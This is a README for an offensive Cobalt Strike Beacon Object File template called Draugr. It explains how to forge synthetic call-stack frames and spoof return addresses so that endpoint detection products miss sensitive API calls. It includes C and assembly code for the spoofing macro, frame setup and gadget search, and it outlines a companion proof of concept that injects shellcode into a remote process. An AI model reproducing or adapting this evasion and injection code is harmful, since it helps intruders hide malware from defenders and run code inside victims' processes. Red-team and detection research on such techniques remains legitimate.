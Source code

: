 # Draugr

![Draugr](img/draugr.jpg)

# Introduction

## Draugr-Template

CobaltStrike BOF Template to easily perform a synthetic stack frame in BOF.

The spoofer is based on LoudSunRun.

For each API call, a gadget is randomly used inside KERNELBASE.DLL.

## Draugr-Strike

Example of usage of Draugr-Template with BOF to perform remote process injection.

# Details

## Draugr-Template

Nowadays, some EDRs analyze the stack frame for sensitive API calls, such as memory usage. If the origin of the API call comes from an executable region that is not backed by the disk, it follows the typical shellcode pattern, and you may be detected by the EDR.

It is possible to spoof the return address to evade detection, but your stack frame may still appear suspicious because, after the gadget, there is nothing left. With this implementation, return address spoofing is used, and after the gadget, two frames are pushed to mimic a thread start.

The advantage of a synthetic stack frame is its execution speed and the ability to retrieve the return value of an API call unlike thread pool techniques, which are slower and do not allow retrieving function return values.


### How to use

You need to dynamically resolve the address of the targeted function and call it using the SPOOF_CALL macro like this:

```
HMODULE pKernel32 = GetModuleHandleA("Kernel32.dll");

void* pVirtualALloc = (void*)GetProcAddress(pKernel32, "VirtualAlloc");

void *pAllocatedAddr = SPOOF_CALL(&stackFrame, pVirtualALloc, NULL, 1024 * 1024, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

The first argument is a pointer to the ```SYNTHETIC_STACK_FRAME``` structure, and the second is the ```address of the function```.

The ```SYNTHETIC_STACK_FRAME``` structure is an abstraction of the ```PRM``` structure, allowing easier modification of the gadget and frame.

### Custom gadget

For the customization of the gadget ```jmp [RBX]``` or the fake stack frame, you need to edit the code in ```src/core/Spoof.c```, specifically in the ```InitFrameInfo``` function.

You can modify the module used to find the gadget as well as the fake frame.



```
BOOL InitFrameInfo(
    _In_	PSYNTHETIC_STACK_FRAME	stackFrame
)
{
    void* pModuleFrame1 = GetModuleHandleA("Kernel32.dll"); 
    void* pModuleFrame2 = GetModuleHandleA("Ntdll.dll");        
    void* pModuleGadget = GetModuleHandleA("Kernelbase.dll");   --> Module name use to find gadget

    if (
        !pModuleFrame1 || !pModuleFrame2 || !pModuleGadget
        )
        return FALSE;

    stackFrame->frame1.pModuleAddr = pModuleFrame1;
    stackFrame->frame1.pFunctionAddr = (PVOID)GetProcAddress((HMODULE)pModuleFrame1, "BaseThreadInitThunk");    --> Edit this to change the fake 1st frame
    stackFrame->frame1.dwOffset = 0x14;

    stackFrame->frame2.pModuleAddr = pModuleFrame2;
    stackFrame->frame2.pFunctionAddr = (PVOID)GetProcAddress((HMODULE)pModuleFrame2, "RtlUserThreadStart");     --> Edit this to change the fake 2nd frame
    stackFrame->frame2.dwOffset = 0x21;

    if (
        !stackFrame->frame1.pFunctionAddr || !stackFrame->frame2.pFunctionAddr
        )
        return FALSE;


	stackFrame->pGadget = pModuleGadget;	// Address of module for gadget
   
    if (!stackFrame->pGadget)
        return FALSE;

    return TRUE;
}
```

If you want to use a gadget other than ``` jmp [RBX]```, you need to modify the condition inside the ```FindGadget``` function and update ```Utils.s``` in ```src/asm/Utils.s``` to use the targeted register.

```
l.121 -> 124

mov    [rdi + 16], rbx             ; original rbx is stored into "rbx" member
lea    rbx, [rel fixup]            ; Fixup address is moved into rbx
mov    [rdi], rbx                  ; Fixup member now holds the address of Fixup
 mov    rbx, rdi                    ; Address of param struct (Fixup) is moved into rbx


l.135 -> 142

mov     rcx, rbx
add     rsp, 0x200          ; Big frame thing
add     rsp, [rbx + 48]     ; Stack size
add     rsp, [rbx + 32]     ; Stack size
add     rsp, [rbx + 56]     ; Stack size

mov     rbx, [rcx + 16]     ; Restoring OG RBX
```

When you make an API call using the ```SPOOF_CALL``` macro, the function searches for a gadget in the module specified in ```InitFrameInfo```.

This part of the code can be improved by using a linked list to store all gadgets instead of limiting it to 10. Alternatively, it could allocate a buffer to store all gadgets and then list them again.

However, the limit of 10 gadgets is sufficient.
```
PVOID FindGadget(
	_In_	PVOID	pModuleAddr
)
{
	DWORD	dwTextSectionSize = 0;
	DWORD	dwTextSectionVa = 0;
    PVOID   pGadgetList[10] = { 0 };
    DWORD   dwCounter = 0;

	if (!
		GetTextSectionSize(pModuleAddr, &dwTextSectionVa, &dwTextSectionSize)
		)
		return NULL;


	PVOID pModTextSection = (PBYTE)((UINT_PTR)pModuleAddr + dwTextSectionVa);
	for (int i = 0; i < (dwTextSectionSize - 2); i++)
	{
		if (
			((PBYTE)pModTextSection)[i] == 0xFF &&
			((PBYTE)pModTextSection)[i + 1] == 0x23
			)
		{
  			pGadgetList[dwCounter] = (void*)((UINT_PTR)pModTextSection + i);
            dwCounter++;
            if(dwCounter == 10)
                break;
            
		}
	}

    ULONG seed = 0x1337;
    ULONG randomnNbr = RtlRandomEx(&seed);
    randomnNbr %= dwCounter;
    
	return pGadgetList[randomnNbr];
}
```

### Credit

- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/susMdT/LoudSunRun
- https://github.com/WithSecureLabs/CallStackSpoofer



## Draugr-Strike

### Draugr-Strike

!! WARNING !!

Sometimes the injection fails. This code is just a PoC to demonstrate how to use the template. Do not use it in production !

This example uses kernel32 with a synthetic stack frame to execute shellcode in a remote process.

- Allocate memory with RW permissions with.
- Write shellcode into the remote process.
- Change memory protection to RX.
- Create a spoofed thread at ```RtlUserThreadStart+0x21```.
- Resume the thread.

Stackframe view from windbg :

![stackframe](img/img_bof_1.png)


### Credit

- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/susMdT/LoudSunRun
- https://github.com/WithSecureLabs/CallStackSpoofer
- https://github.com/apokryptein/secinject
- https://github.com/ScriptIdiot/sw2-secinject (90% of cna script is ctrl+c/ctrl+v)

Also, big thanks to @OpenAI and ChatGPT for the orthography correction of the README.